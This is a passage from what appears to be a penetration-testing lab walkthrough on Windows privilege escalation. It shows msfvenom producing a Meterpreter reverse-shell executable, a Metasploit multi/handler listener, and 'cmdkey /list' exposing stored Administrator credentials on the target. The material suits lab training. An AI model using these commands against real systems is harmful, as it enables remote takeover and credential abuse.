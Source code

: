 _Background the Meterpreter session._

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

_Generate a new reverse shell executable using msfvenom._

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.39.3 LPORT=5555 -f exe -o /root/Desktop/reverse_shell.exe`:
```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/reverse_shell.exe ←
```

**Explanation:** The `msfvenom` command is used to generate a reverse shell executable that will connect back to the attacker’s machine on a specified port when executed on the target.

_Set up a multi/handler to catch the reverse shell connection._

`search multi/handler`, `use exploit/multi/handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set LHOST 10.10.39.3`, `set LPORT 5555`, `exploit -j`:
```
[*] Exploit running as background job 1. ←
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.39.3:5555 ←
```

**Explanation:** The `multi/handler` module in Metasploit is used to set up a listener that will catch the reverse shell connection when the executable is run on the target machine.

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

_Interact with the initial Meterpreter session and display stored credentials again._

`sessions`, `sessions -i 1`

`shell`, `cmdkey /list`:
```
Currently stored credentials:

    Target: Domain:interactive=PRIV-ESC\Administrator
    Type: Domain Password
    User: PRIV-ESC\Administrator ←
```

**Explanation:** Listing the stored credentials again shows that the `Administrator` credentials are still available for use, which will be leveraged for privilege escalation.

_Exit the shell and verify the current working directory._

`exit`

`pwd`:
```
C:\Users\student
```
